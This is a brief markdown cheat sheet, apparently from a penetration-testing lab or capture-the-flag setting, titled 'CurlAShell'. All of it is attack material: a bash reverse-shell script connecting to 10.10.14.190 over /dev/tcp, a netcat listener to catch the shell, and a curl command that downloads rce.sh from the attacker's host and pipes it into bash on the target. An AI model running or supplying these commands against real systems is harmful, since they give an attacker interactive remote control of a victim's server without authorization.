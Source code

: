 ## CurlAShell

this have to be on the server that should be exploited
```bash

#!/bin/bash
/bin/bash -c 'exec bash -i >& /dev/tcp/10.10.14.190/6565 0>&1'


```

```bash
    nc -lvnp 6565
```
creates the corresponding netcat server on the controller

a way to run it from a server:

```bash
curl 10.10.14.190:8003/rce.sh|bash
```

